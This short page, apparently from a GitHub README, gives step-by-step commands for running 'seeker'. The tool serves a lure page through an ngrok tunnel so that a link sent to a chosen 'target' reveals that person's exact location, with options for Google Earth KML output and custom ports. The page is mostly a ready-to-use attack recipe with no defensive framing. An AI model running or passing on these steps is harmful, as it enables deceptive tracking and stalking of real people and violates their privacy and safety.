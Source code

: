 
## Localisation (Exact)

```
# Step 1 : In first terminal
$ python3 seeker.py

# Step 2 : Select the options (Most likely for your target to click)

# Step 3 : In second terminal start a tunnel service such as ngrok
$ ./ngrok http 8080

# Step 4 : Sent ngrok link to target

###########
# Options #
###########

# Ouput KML File for Google Earth
$ python3 seeker.py -k <filename>

# Use Custom Port
$ python3 seeker.py -p 1337
$ ./ngrok http 1337
```


## More Information

More information ---> https://github.com/thewhiteh4t/seeker

<iframe src="https://github.com/thewhiteh4t/seeker
" width="100%" height="1300"></iframe>